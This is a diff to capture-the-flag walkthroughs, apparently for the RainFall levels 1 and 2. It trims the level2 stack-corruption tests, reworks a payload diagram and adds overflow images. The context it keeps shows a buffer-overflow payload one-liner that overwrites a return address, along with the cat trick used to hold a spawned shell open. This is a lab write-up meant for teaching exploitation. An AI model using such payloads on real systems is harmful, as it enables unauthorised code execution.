

[EDIT] fix some errors + add overflow png on level{1, 2}

Changed region(s): [[0.0307, 0.0, 0.9832, 0.987], [0.7682, 0.9253, 0.9832, 0.987]]

diff --git a/level2/walkthrough.md b/level2/walkthrough.md
@@ -158,35 +158,9 @@ A **shellcode** is a **sequence of machine instructions** encoded in hexadecimal
 This shellcode is 21 bytes long, with this we can **define the structure of the payload** :
 ```
 <shellcode> + <buffer overflow> + <shellcode address>
-	21	   	+ 		59		        + 			4				 = 84
-```
-
-##### Corrupted Bytes
-
-Looking at the stack layout, we need to reach the saved EIP at offset 76, but we add 4 extra bytes to account for the corrupted `unaff_retaddr` zone.
-The `and $0xb0000000, %eax` operation **modifies these 4 bytes**, corrupting part of our payload if we write there.
-
-This behavior can be observed with the following tests:
-
-```bash
-level2@RainFall:~$ ./level2 
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa        
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
-level2@RainFall:~$ ./level2 
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa       
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ����
-level2@RainFall:~$ ./level2 
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ����
-level2@RainFall:~$ ./level2 
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ����
-level2@RainFall:~$ ./level2 
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ����
-level2@RainFall:~$ ./level2 
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJ�
+   21       +        59         + 			4				   = 84 bytes
+└─────────────┬────────────────┘
+			80 bytes
 ```
 
 ---
@@ -212,6 +186,11 @@ With this `ltrace` output we can get the **return value** of `strdup()`, which i
 ```
 \x08\xa0\x04\x08
 ```
+
+### Overflow Visualization
+
+![img](Ressources/level2-overflow.png)
+
 
 ### Create the Payload
 

diff --git a/level1/walkthrough.md b/level1/walkthrough.md
@@ -177,7 +177,11 @@ With that we can create the payload:
 python -c "print 'A' * 76 + '\x72\x84\x04\x08'"
 ```
 
-## 4. Execute The Exploit - Capture The Flag
+### Overflow Visualization
+
+![img](Ressources/level1-overflow.png)
+
+## 4. Capture The Flag
 
 **Note:**  
 We use `cat /tmp/payload -` to send the payload and then keep `stdin` open. The dash (`-`) tells `cat` to continue reading from stdin, allowing us to interact with the spawned shell.
